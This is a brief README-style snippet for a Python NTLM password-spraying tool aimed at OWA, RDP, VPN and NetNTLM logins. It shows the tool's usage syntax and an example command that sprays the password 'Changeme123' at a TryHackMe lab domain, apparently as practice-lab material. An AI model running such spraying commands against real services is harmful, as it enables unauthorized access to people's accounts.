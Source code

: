 
# NTML Password Spray(OWA/RDP/VPN/NetNTLM)

python ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurL>
python ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com